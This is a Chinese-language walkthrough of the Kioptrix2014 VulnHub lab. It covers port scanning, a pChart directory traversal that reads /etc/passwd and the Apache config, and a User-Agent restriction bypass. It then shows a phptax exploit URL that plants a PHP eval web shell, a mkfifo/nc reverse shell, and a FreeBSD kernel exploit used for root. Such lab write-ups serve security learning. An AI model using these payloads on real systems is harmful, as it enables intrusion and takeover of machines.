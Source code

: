 ### 端口扫描

```bash
# Nmap 7.94SVN scan initiated Thu Nov  7 09:45:08 2024 as: nmap -sT --min-rate 6000 -p- -oN nmapscan/port_scan 192.168.217.143
Nmap scan report for 192.168.217.143
Host is up (0.018s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE  SERVICE
22/tcp   closed ssh
80/tcp   open   http
8080/tcp open   http-proxy
MAC Address: 00:0C:29:14:A7:E4 (VMware)

# Nmap done at Thu Nov  7 09:45:30 2024 -- 1 IP address (1 host up) scanned in 22.09 seconds
```

```bash
# Nmap 7.94SVN scan initiated Thu Nov  7 09:52:22 2024 as: nmap -sT -A -p22,80,8080 -oN nmapscan/detils_scan 192.168.217.143
Nmap scan report for 192.168.217.143
Host is up (0.00067s latency).

PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
8080/tcp open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
MAC Address: 00:0C:29:14:A7:E4 (VMware)
Device type: general purpose
Running (JUST GUESSING): FreeBSD 9.X|10.X (88%)
OS CPE: cpe:/o:freebsd:freebsd:9 cpe:/o:freebsd:freebsd:10
Aggressive OS guesses: FreeBSD 9.0-RELEASE - 10.3-RELEASE (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.67 ms 192.168.217.143
```

根据扫描的结果看：这是一台`FreeBSD`系统

### web端渗透

80端口可以访问，8080是403，存在访问限制

```bash
┌──(root㉿kali)-[~/vulnhub/Kioptrix2014]
└─# curl http://192.168.217.143     
<html>
 <head>
  <!--
  <META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">
  -->
 </head>

 <body>
  <h1>It works!</h1>
 </body>
</html>
```

访问`pChart2.1.3/index.php`

pchart是图片工具，找漏洞就行了

```bash
searchsploit pChart 2.1.3
```

这里有一个目录穿越的漏洞

```
hxxp://localhost/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd
```

![image-20241108152257675](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241108152257675.png)

那就想着读`apache`的配置文件，查看8080端口有什么限制，两个端口都是apache服务

找了大半天配置文件目录都不行，最后发现这个系统的目录跟一般`linux`不太一样

![image-20241108152617588](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241108152617588.png)

`/usr/local/etc/apache22/httpd.conf`

> http://192.168.217.143/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2f../usr/local/etc/apache22/httpd.conf

```bash
cat httpd.conf| grep -v "#" | grep -v "^$" > httpd_new.conf
```

```
</IfModule>
SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser
<VirtualHost *:8080>
    DocumentRoot /usr/local/www/apache22/data2
<Directory "/usr/local/www/apache22/data2">
    Options Indexes FollowSymLinks
    AllowOverride All
    Order allow,deny
    Allow from env=Mozilla4_browser
</Directory
```

8080只允许UA是`Mozilla/4.0`开头的访问

是一个`phptax`

```bash
searchsploit phptax
```

![image-20241108154302697](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241108154302697.png)

我这里利用`25849`

写文件

```
http://192.168.217.143:8080/phptax/index.php?field=shell.php&newvalue=%3C%3Fphp%20eval(%24_POST%5Bcmd%5D)%3B%3F%3E
```

```
http://192.168.217.143:8080/phptax/data/shell.php
```

![image-20241108154814021](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241108154814021.png)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.217.139 1234 >/tmp/f
```

成功拿到shell

### 提权

```bash
$ id
uid=80(www) gid=80(www) groups=80(www)
$ whoami
www
$ uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```

利用内核提权，提权方式优先选择sudo，suid等，内核提权是最后的

```bash
searchsploit FreeBSD 9.0    
```

我这里用`26368.c`进行提权

用蚁剑将文件上传上去，进行编译

![image-20241108155425228](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241108155425228.png)

成功拿到root
